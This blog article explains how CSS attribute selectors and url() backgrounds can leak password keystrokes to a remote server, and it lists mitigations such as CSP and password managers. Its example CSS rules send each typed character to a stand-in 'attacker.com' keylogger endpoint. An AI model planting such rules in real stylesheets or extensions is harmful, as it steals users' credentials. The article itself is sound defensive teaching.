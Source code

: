 ```yaml
---
title: CSS Keylogging and how to Mitigate it
tags:
  - Security
  - Web
  - CSS
excerpt: >-
  Clever usage of CSS allows attackers to exfiltrate keystrokes to an
  attacker-controller server. This article examines how the attack works and how
  to migitate against it.
keywords:
  - Security
  - Web
  - Keylogging
  - Data Exfiltration
date: 2018-03-01 08:28:44 EST
---
```



I recently stumbled upon a fairly creative [proof of concept][1] for (ab)using
Cascading Style Sheets to record a user's keystrokes off a website. The sample
code contains a server and a sample Chrome extension that forwards the content of `password`
type input fields in a webpage. The sample itself is missing a few things to be
usable by a bad guy, but all the ideas and ingredients are there, ripe for the
picking.

This attack is especially dangerous because of the fact that it can run in any
browser extension that has access to the HTML of your pages. The problem is
amplified because most extensions that provide something useful will usually
require access to one or more websites. A very bad and yet popular example of
that are extensions that inject CSS for custom styling of webpages. These
extensions provide something very attractive to users, and it is very easy to
forget that whenever you install a *user*-style, you're running user-submitted
content in your browser.

Websites that let users customize their personal page with a CSS theme, like
Reddit (sub-reddit themes), can trick you into signing-in to reddit after a visit to
their page, thus sniffing your password as you type it.

I'll first explain the concepts behind the attack and then show a simplified
example of what the attack code might look like. Once that is out of the way,
I will talk about possible mitigations for the attack.

[1]: https://github.com/maxchehab/CSS-Keylogging


## How the Attack Works

The attack abuses a few CSS concepts which, by themselves, are completely
harmless, but combined in a creative fashion, pave the way towards keylogging:

*Attribute Selectors* make it possible to target a specific node in the DOM tree
based on an attribute and its value. This is useful for instance, when
attempting to apply a style rule to all input fields of a same type:
`input[type="radio"]`. There are multiple special comparator such as the `~=`
and `$=` [comparators][2]. The latter has the following interesting documentation:

> Represents an element with an attribute name of attr whose value is suffixed (followed) by value.


[2]: https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors

*Selector Chaining* is the concept of chaining multiple selectors to create a
more specific style rule. A good chaining example is the rule that says

``` css
#main input[type="radio"].valid {
    /* ... */
}
```

which targets an input of type `radio` which has the class `valid` and is inside
a node with an id of `main`.

*`url()` Value Keywords* which make it possible to reference static resources.
In any property that accepts an image as a value, as is the case with the
properties `background` and `background-image`, for example.

----

If the attack is not becoming clear yet, consider the following CSS snippet:

``` css
input[type="password"][value$="a"] {
  background: url("somewhere.png");
}
```

This rule says the following:

> For all inputs of type `password` that have a value ending in `a`, set the
> background to the image `somewhere.png`

All that one needs to do now is have one CSS rule per valid password character.
Fortunately, for most websites, this is limited to ASCII printable characters,
and as such all an attacker needs is 127 rules. The attack is possible because
CSS does not restrict which URLs `background-image` has access to. More
concretely,

``` css
input[type="password"][value$="a"] {
  background: url("https://www.attacker.com/keylogger/strokes/a");
}

input[type="password"][value$="b"] {
  background: url("https://www.attacker.com/keylogger/strokes/b");
}

/* ... all other ASCII characters ... */
```

This is the gist of the attack. It can be made more elaborate by capturing all
input fields and, for instance, to record the username as well.

On the server, the requests do not have a lot of information, but time and
delta-time between requests, along with the request originating IP address can
be used and analyzed to reconstruct each field separately. Heuristics (or manual
human intervention) can then be used to recover usernames and passwords.


## Mitigation


The best way to *prevent* this problem would be at the server level with a concept
similar to [content security policy][3] that disallows any `url()` property from
getting sites outside of the trusted sources (e.g. `your-site.com` and
`cdn.your-site.com`)

Unfortunately, CSP itself cannot prevent the attack entirely since it does not
provide a way to block `url()` requests or `<link>` tags that include
user-controlled theme files.

The best ways to *avoid* being keylogged are as follows:

1. Do not use extensions that have the right to modify all pages. This should be
   the very first step taken in order to protect yourself. If the extension can
   modify any page, there is nothing that prevents it from injecting malicious
   CSS into the page.

2. If extensions are a necessity, make sure to disable them whenever you are
   about to do something sensitive like inputting credentials. Refreshing the
   page with the extension disabled will ensure that there is no extension-code
   loaded.

3. Avoid inputting sensitive information on pages that allow their users to
   customize the stylesheet, as you don't know what the CSS is doing.

4. Use a password manager that automatically sets the value of input fields for
   you. If the password manager is setting the value directly, and the website
   is keylogged, this will only leak the last character of your password to the
   attacker. If your passwords are unique per web-site (as they should) and
   sufficiently strong, this last character should not have too significant of
   an impact.

---

As things stand right now, there is no foolproof protection against CSS
keylogging, and it does not look like it will be landing any time soon. The best
thing to do is to be wary of what is running in your browser and to remember
that when running user controlled code, extra care must be taken, in the same
way extra care must be taken when downloading executables from untrusted
sources.

[3]: https://en.wikipedia.org/wiki/Content_Security_Policy
